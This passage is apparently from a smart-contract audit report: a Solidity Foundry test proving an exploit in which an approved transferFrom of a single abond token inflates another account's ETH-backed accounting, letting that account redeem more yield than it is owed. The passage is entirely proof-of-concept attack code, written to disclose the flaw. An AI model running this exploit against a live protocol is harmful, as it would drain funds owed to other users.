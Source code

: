 ```solidity
        }

        {
            // here the attack starts
            (, uint128 ethBacked1Before,) = contractsB.abond.userStates(account1);
            (, uint128 ethBacked2Before,) = contractsB.abond.userStates(account2);

            assert(ethBacked1Before > ethBacked2Before);

            uint256 acount2AbondBalance = contractsB.abond.balanceOf(account2);
            uint256 acount1AbondBalance = contractsB.abond.balanceOf(account1);

            // check how much eth it would get in case attack is not performed
            (, uint256 redeemableAmountBefore2,) =
                contractsB.borrow.getAbondYields(account2, uint128(acount2AbondBalance));
            (, uint256 redeemableAmountBefore1,) =
                contractsB.borrow.getAbondYields(account1, uint128(acount1AbondBalance - 1));

            // step 1 from "Attack path" section
            vm.prank(account1);
            contractsB.abond.approve(account2, 1);

            // step 2 from "Attack path" section
            vm.prank(account2);
            contractsB.abond.transferFrom(account1, account3, 1);

            (, uint128 ethBacked1After,) = contractsB.abond.userStates(account1);
            (, uint128 ethBacked2After,) = contractsB.abond.userStates(account2);

            assertEq(ethBacked1Before, ethBacked1After);
            assert(ethBacked2Before < ethBacked2After);

            // step 3 from "Attack path" section
            vm.startPrank(account2);
            contractsB.abond.approve(address(contractsB.borrow), type(uint256).max);
            uint256 withdrawedAmount2 = contractsB.borrow.redeemYields(account2, uint128(acount2AbondBalance));
            vm.stopPrank();

            // "Impact" section, point 3
            assert(withdrawedAmount2 > redeemableAmountBefore2);

            vm.startPrank(account1);
            contractsB.abond.approve(address(contractsB.borrow), type(uint256).max);
            uint256 withdrawedAmount1 = contractsB.borrow.redeemYields(account1, uint128(acount1AbondBalance - 1));
            vm.stopPrank();

            // "Impact" section, point 3
            assertEq(withdrawedAmount1, redeemableAmountBefore1);
        }
    }
```
